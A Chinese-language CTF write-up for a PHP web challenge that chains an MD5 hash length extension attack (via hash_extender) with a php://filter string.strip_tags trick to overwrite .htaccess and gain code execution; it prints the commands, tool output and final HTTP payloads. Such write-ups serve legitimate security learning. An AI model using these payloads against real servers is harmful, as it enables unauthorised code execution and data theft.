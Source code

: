这里同样也给出了加密前的 secret 的 md5 值，我们这里就当做 data 也就是 demo1 的 yusa 是空值即可。  
当然因为这里加入了死亡杂糅的内容所以这里我放出 wp，其实总的来说还是上面分析的方法。

我们可以使用 `hash_extender` 这个工具来进行哈希长度扩展攻击，生成新的密文

首先考虑将 `secret` 写入到一个文件中

执行:

```shell
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[a.txt" -f md5 -l 13 -d ''
```

得到:

```php
Type: md5
Secret length: 13
New signature: 4f150e4b71070951112f56be4044c181
New string: 8000000000000000000000000000000000000000000000000000000000000000000000000000000000000068000000000000005b5b612e747874
```

> 可能需要用 CyberChef 套 From Hex (Auto) - To Base64

发送:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: dino-ctf.kengwang.com.cn:32857

hash=4f150e4b71070951112f56be4044c181&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1thLnR4dA
```

访问 `a.txt`

发现 `secret` 是 `<?php die();`, 接下来是死亡 die 绕过

这里需要用到伪协议的一些技巧:

首先利用 `string.strip_tags` 的过滤器链吞掉之前的死亡 die, 然后再在后面接上你想要写的内容

这里使用写 `.htaccess` 的方法来实现 rce, 直接加个 `auto_prepend_file` 即可

构造出 `php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess`

```bash
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess" -f md5 -l 13 -d ''
```

最终 payload:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:32768

hash=473640a1e1ec5efa6bdaf4c7c8f04482&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1twaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnN0cmlwX3RhZ3MvPz5waHBfdmFsdWUgYXV0b19wcmVwZW5kX2ZpbGUgZmxhZ1xuIy9yZXNvdXJjZT0uaHRhY2Nlc3M
```
